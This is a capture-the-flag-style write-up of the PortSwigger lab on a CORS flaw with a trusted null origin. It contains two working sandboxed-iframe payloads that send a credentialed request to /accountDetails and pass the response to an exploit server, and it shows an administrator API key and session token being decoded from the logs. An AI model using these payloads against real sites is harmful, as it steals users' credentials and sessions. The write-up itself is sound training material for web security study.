



### CORS Vulnerability With Trusted Null Origin Lab
#### Entities
Asset: https://0a670032044b5555803fcb6d009700d4.web-security-academy.net

#### Enumeration
Access the lab, add the domain - without the protocol scheme - to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page and all embedded links via a script using the given credentials `wiener:peter`.
```shell
# inspect `/` route and embedded links via Burp's Proxy
URL="https://0a670032044b5555803fcb6d009700d4.web-security-academy.net"
for path in $(curl -s $URL | grep -o 'href="[^"]*"' | cut -d'"' -f2); do
  echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null $URL$path)"
done
```
View result on Burp Proxy's HTTP history, and with FoxyProxy Browser Extension configured for Burp turned on - not the Burp Proxy intercept - browse through the URLs that sticks out, hitting all possible resource you can find. The `/my-account` route which redirects to the `/login` when requested with valid credentials makes a POST request with an `Origin` header; `csrf`, `username` and `password` parameters and a GET request for `/accountDetails` after the login which shows sensitive credentials in the response with the `Access-Control-Allow-Credentials: true` set.

  

#### Exploration
Armed with this insight, send the GET `/accountDetails` to Burp Repeater. Verify a CORS flaw at `/accountDetails` by removing the `Referer` header and adding an `Origin` header switching the value to an arbitrary domain, then null and observe the response reflected the `Access-Control-Allow-Origin` null value. 

 

Now exploit yourself while logged in with the below script.

#### Exploitation
Now exploit yourself while logged in with the below script using the iframe sandbox attribute to simulate null origin.
```shell
<html lang="en">
<body>
  <iframe sandbox="allow-scripts" srcdoc="
    <script>
      async function exploitCORS() {
        const appURL = 'https://0a670032044b5555803fcb6d009700d4.web-security-academy.net/accountDetails';
        const exploitServer = 'http://localhost:8000';
        const response = await fetch(appURL, { credentials: 'include' });
        const data = await response.json();
        fetch(exploitServer + `/?log=${JSON.stringify(data)}`);
      }
      exploitCORS();
    </script>
  "></iframe>
</body>
</html>
```
Start a local server with `python3 -m http.server -b 127.0.0.1 8000 -d .` from within the directory where the above script is saved as index.html. Then run `google-chrome http://127.0.0.1:8000` and see your own credential displayed.

The condition for exploiting this flaw is that the target victim must be logged into their account, such that when they click the payload delivered to them, it gets the content of `/accountDetails` and logs that request to attacker's server. It is important to note that the PortSwigger lab simulates delivering the payload to the target victim and the response received at `/log` path of the exploit server. However in engagement the payload is usually set as a link in seemingly harmless articles or social media post.  
```shell
<html lang="en">
<body>
  <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
  <script>
    var appServer = 'https://0a670032044b5555803fcb6d009700d4.web-security-academy.net'
    var exploitServer = 'https://exploit-0ace0046041055ef8007caf8011c0096.exploit-server.net'
    var xhr = new XMLHttpRequest();
    xhr.open('GET', appServer + '/accountDetails', true);
    xhr.withCredentials = true;
    xhr.onreadystatechange = function() {
      if (xhr.readyState == XMLHttpRequest.DONE && xhr.status == 200) {
        fetch(exploitServer + '/log=' + xhr.responseText)
      }
    };
    xhr.send();
  </script>
  "></iframe>
</body>
</html>
```
Paste the above on the exploit server and deliver exploit to victim.  

 

#### Exfiltration
Access the exploit server log and copy the value of `/log=` path. Now run it through a url decoder to extract the apikey.  

 
```shell
urlencode -d '%7B%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22SeXyl9sj6fIzmk04GGkz7MBPDlfmgDtv%22,%20%20%22sessions%22:%20[%20%20%20%20%22Q8Vn273xIb5fPY7NWmQHW1a1o7SXuJaz%22%20%20]%7D' | jq . | tee cors-vulnerability-with-trusted-null-origin-spoil.json
```
   

#### Resources
- https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack
- https://github.com/knoxknot/portswiggerlabs/tree/main/cors/02-cors-vulnerability-with-trusted-null-origin